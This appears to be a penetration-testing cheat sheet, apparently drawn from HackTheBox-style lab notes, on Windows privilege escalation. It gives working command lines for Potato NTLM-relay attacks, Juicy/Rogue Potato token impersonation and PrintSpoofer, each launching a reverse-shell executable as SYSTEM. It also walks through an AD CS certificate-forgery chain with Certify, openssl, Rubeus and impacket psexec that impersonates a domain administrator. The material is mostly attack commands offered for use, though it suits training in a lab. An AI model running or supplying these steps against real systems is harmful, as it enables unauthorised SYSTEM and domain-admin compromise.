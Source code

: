 #### Potatoes

Works on Win 7,8 and early 10. Latest win 10 is patched.

Relies on NTLM relay from auth to fake http server to SMB to get SYSTEM.

* Execute potato

```powershell

.\potato.exe -ip 192.168.1.39 -cmd "C:\Temp\rev_shell.exe" -enable_http server true -enable_defender true -enable_spoof true -enable_exhaust true

```

#### Token Impersonation

Patched on latest windows 10.

* Need remote access to service accont like `nt authority\local service`
* This shall tipically work if following privileges are available `SeImpersonatePrivilege` and `SeAssignPrimaryTokenPrivilege`
* Next, find CLSID `http://ohpe.it/juicy-potato/CLSID/`
* Copy juicy potato and run it

For later versions use Rogue Potato.

#### PrintSpoofer

* Works on newer machines.
* needs `vc_redist.x64.exe`
* Check priviliges for impersonation
* Run exploit

```powershell

.\PrintSpoofer.exe -i -c "c:\Temp\rev_shell.exe"
```

### Certificate exploits

* PKI might badly configured
* exploit it using Certify.exe tool for recon and certificate forging

```bash
# see github for more info
Certify.exe find /vulnerable

#altname is the account for impersonation
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator

#Copy the  -----BEGIN RSA PRIVATE KEY----- ... -----END CERTIFICATE----- section to a file on Linux/macOS, and run the openssl #command to convert it to a .pfx. When prompted, don't enter a password:


openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx

#saving blob to ticket.64

tr -d '\n' < ticket.64 | tr -d ' '

# then just use ccache and call impackets psexec
impacket-psexe -no-pass -k target cmd


```